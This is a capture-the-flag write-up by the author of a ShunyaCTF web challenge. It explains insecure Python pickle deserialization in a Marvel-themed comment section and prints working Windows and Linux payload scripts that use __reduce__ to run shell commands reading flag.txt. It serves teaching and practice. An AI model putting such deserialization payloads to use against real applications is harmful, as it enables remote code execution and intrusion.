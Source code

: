 ```yaml
---
categories: [ShunyaCTF]
tags: [web exploitation]     # TAG names should always be lowercase
author: Darshan
description: Web exploitation category challenge created by me for ShunyaCTF 2k24
image:
    path: /assets/img/Banners/the-space-stone.jpg
pin: False
---
```


# Solution for Pickle RCE Challenge

## Challenge Overview

In this challenge, you are tasked with exploiting a Python web application that uses the `pickle` module to deserialize user-provided data. The application is vulnerable to a Remote Code Execution (RCE) attack due to unsafe deserialization practices. The objective is to craft a malicious payload that, when deserialized, executes a command to reveal the contents of a file named `flag.txt`.

## Vulnerability Explanation

Python's `pickle` module is used to serialize and deserialize Python objects. However, it is inherently insecure when handling untrusted data. The `pickle` module allows arbitrary code execution during deserialization if a malicious payload is provided. This vulnerability arises because `pickle` can execute methods like `__reduce__` or `__reduce_ex__` defined in objects, enabling attackers to run arbitrary commands on the server.

### Key Points:
1. **Deserialization**: The application deserializes user input without validation.
2. **Arbitrary Code Execution**: By defining a custom class with a `__reduce__` method, attackers can control the behavior during deserialization.
3. **Target File**: The payload is crafted to read the contents of `flag.txt`.

## Application Walkthrough

The following screenshots showcase the vulnerable application in action:
 
![HomePage](/assets/img/ShunyaCTF/SpaceStone/homepage.png)

1. This the home page provided explaining about what a space stone is and what are the key facts about the space stone.
2. After reviewing the source code, we understand that the Tresseract seems to be clickable and after clicking the button we are redirected to another location named `/space`.
3. This is the main application page as shown below.  

![Untitled](/assets/img/ShunyaCTF/SpaceStone/mainpage.png)

1. This main page contains information about the Marvel characters and there is one input box also to search for any specific character like `Thor`.
2. And below that we have a comment section where people can comment about Marvel characters.
3. This comment section is vulnerable to insecure deserialization vulnerability and users have to exploit this and gain RCE to read the `flag.txt`.
4. Screenshot of comment section is as shown below.  

![Untitled](/assets/img/ShunyaCTF/SpaceStone/commentsection.png)

## Solution Script Walkthrough

The solution script creates two payloads—one for a Windows server and another for a Linux server. Each payload exploits the deserialization vulnerability to execute commands that display the contents of `flag.txt`.

### Windows Payload
```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        return (os.system, ('more flag.txt',))

malicious_payload = base64.b64encode(pickle.dumps(RCE())).decode()
print("Payload for Windows server: ", malicious_payload)
```

#### Explanation:
1. **Custom Class**: The `RCE` class defines the `__reduce__` method, which specifies the function (`os.system`) and its argument (`more flag.txt`).
2. **Serialization**: The `pickle.dumps` method serializes the `RCE` object.
3. **Encoding**: The serialized payload is Base64 encoded to ensure safe transmission over the network.
4. **Command Execution**: When deserialized, the payload executes the `more` command to display the contents of `flag.txt`.

### Linux Payload
```python
import pickle
import base64
import os
import subprocess

class RCE:
    def __reduce__(self):
        cmd = ('cat', 'flag.txt')
        return (subprocess.check_output, (cmd,))

malicious_payload = base64.b64encode(pickle.dumps(RCE())).decode()
print("Payload for linux server: ", malicious_payload)
```

#### Explanation:
1. **Custom Class**: The `RCE` class defines the `__reduce__` method, which specifies the function (`subprocess.check_output`) and its argument (`('cat', 'flag.txt')`).
2. **Serialization**: The `pickle.dumps` method serializes the `RCE` object.
3. **Encoding**: The serialized payload is Base64 encoded.
4. **Command Execution**: When deserialized, the payload executes the `cat` command to display the contents of `flag.txt`.

## How to Use the Solution Script

1. **Run the Script**:
   - Save the script to a file (e.g., `generate_payload.py`).
   - Execute it in the environment corresponding to the target server (Windows or Linux).
   - Example:
     ```bash
     python generate_payload.py
     ```

2. **Copy the Payload**:
   - The script outputs the payload in Base64 format.
   - Copy the payload to use in the exploit.

3. **Exploit the Vulnerability**:
   - Send the payload to the vulnerable application.
   - The application will deserialize the payload, execute the embedded command, and reveal the contents of `flag.txt`.

## Working of the Exploit

1. **Payload Creation**:
   - The script defines a malicious object that executes commands during deserialization.
   - It serializes and Base64-encodes the object for safe delivery.

2. **Payload Delivery**:
   - The attacker sends the payload to the vulnerable application (e.g., through an API endpoint).

3. **Command Execution**:
   - The application deserializes the payload, invoking the `__reduce__` method of the malicious object.
   - The specified command is executed on the server.

4. **Flag Retrieval**:
   - The command reads the contents of `flag.txt` and outputs them to the attacker.

## Conclusion

This challenge highlights the dangers of insecure deserialization and the importance of following secure coding practices. By crafting and analyzing the solution script, participants gain hands-on experience with a critical vulnerability and learn how to mitigate it in real-world applications.

